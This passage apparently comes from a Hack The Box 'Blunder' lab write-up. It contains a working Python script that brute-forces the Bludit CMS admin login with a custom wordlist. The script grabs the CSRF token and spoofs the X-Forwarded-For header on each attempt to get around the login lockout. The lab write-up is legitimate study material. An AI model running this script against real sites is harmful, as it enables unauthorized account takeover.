 ![Untitled](/img/htb-blunder/Untitled%204.png)

My Wordlist is ready.

Here is the modified script.

```python
#!/usr/bin/env python3
import re
import requests

host = 'http://10.10.10.191'
login_url = host + '/admin/'
username = 'fergus'
wordlist = []
passwd = open("pass","r").readlines()

for x in passwd:
    wordlist.append(x.strip("\n"))

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break
```

Changes I did here is, I use the wordlist I created instead of the old one.
